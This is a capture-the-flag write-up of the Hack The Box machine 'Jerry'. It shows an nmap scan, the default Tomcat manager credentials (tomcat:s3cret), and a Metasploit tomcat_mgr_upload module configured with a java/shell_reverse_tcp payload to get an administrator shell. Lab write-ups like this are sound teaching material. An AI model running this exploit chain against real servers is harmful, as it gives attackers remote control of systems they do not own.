 # [cd ../](../index.md)

---

# Jerry
## Details

Name | Jerry
--- | ---
IP | 10.10.10.95
Os | Windows
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open Ports:

Port | Service | Version
:--- | :---: | ---:
8080 | http | Apache Tomcat/Coyote JSP engine 1.1 

### Web
Just go to `10.10.10.95:8080` and we can see this server runs `Apache Tomcat/7.0.88`!!

There is some interesting links on the main page!  
![web.png](web.png)  
If we click one and not provide a pw we get a `401 Unauthorized page` that shows the default credentials!  
`tomcat:s3cret`  
Lets try to use these!  
We got the **Manager page** (`/manager/html`)  

## Exploting
We can upload a `.WAR` file!

Search for exploits in **msf**  
We found one!
```
use exploit/multi/http/tomcat_mgr_upload

set HttpPassword s3cret
set HttpUsername tomcat
set RHOSTS 10.10.10.95
set RPORT 8080
set payload java/shell_reverse_tcp
run
```
And we got an admin shell

# Got the flags from `C:/Users/Administrator/Desktop/flags/`

